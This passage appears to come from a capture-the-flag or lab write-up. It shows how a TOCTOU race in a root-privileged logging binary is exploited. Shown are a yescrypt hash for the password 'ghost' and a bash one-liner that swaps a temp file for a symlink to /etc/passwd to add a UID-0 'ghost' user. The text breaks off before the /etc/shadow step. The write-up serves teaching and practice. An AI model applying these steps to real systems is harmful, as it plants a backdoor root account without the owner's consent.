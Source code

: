 This gave me a valid yescrypt hash for the password `"ghost"`.
Something like this:

```
$y$j9T$f3q8/kACKQ660FWsI5BjS1$7sMUVKVQm8EnKF3zP44z.kURpvS.5GS6HO6ukI4/Lh3
```

Now I had everything ready:

* A binary that will happily overwrite a file as root.
* A new user definition I could append to `/etc/passwd` and `/etc/shadow`.
* A working hash for the password `ghost`.


## Exploiting the Race

Now came the fun part: turning the vulnerability into a working exploit.

The idea was simple but deadly:

1. Trick the binary into believing it’s writing to a harmless file in `/tmp/`.
2. **Swap that file with a symlink** pointing to `/etc/passwd` or `/etc/shadow` *right before the write happens*.
3. Profit.

This is a textbook **TOCTOU (Time-of-Check to Time-of-Use)** attack: the program checks permissions, sleeps for a few seconds, and then writes — giving me the perfect window to swap things around.

Here’s how I pulled it off:

#### Hijack `/etc/passwd`

```bash
touch /tmp/pppp.txt; \
( sleep 1; rm /tmp/pppp.txt; /usr/local/bin/cake_logger -link /etc/passwd /tmp/pppp.txt ) & \
/usr/local/bin/cake_logger /tmp/pppp.txt "ghost:x:0:0::/root:/bin/bash"
```

Let’s break this down:

* I first created a fake file `/tmp/pppp.txt`.
* Then, in the background, I slept for 1 second, deleted the file, and replaced it with a symlink to `/etc/passwd` using the `-link` feature of the binary itself.
* Meanwhile, I launched the main write operation, appending a **new root user** called `ghost`.

The line added to `/etc/passwd` looked like this:

```
ghost:x:0:0::/root:/bin/bash
```

This basically told the system: *“Hey, here’s another root user called ghost, with `/bin/bash` as the shell.”*



#### Hijack `/etc/shadow`

Of course, the passwd entry alone wasn’t enough. I also needed a matching password entry in `/etc/shadow`.
